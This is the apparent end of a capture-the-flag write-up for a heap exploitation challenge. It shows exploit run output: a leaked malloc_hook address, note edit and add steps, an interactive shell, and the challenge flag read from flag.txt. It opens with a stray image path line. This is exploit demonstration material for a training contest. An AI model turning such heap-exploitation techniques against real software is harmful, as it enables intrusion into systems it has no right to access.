     malloc_hook:  0x7f194e86fc30
    [*] Edit success 6
    [*] Add success 9
    [*] Add success 10
    [*] Switching to interactive mode
    >> $ ls
    flag.txt
    task2
    task2.c
    ynetd
    $ cat flag.txt
    FwordCTF{i_l0V3_ru5tY_n0tEs_7529271026587478}
    $
    ```
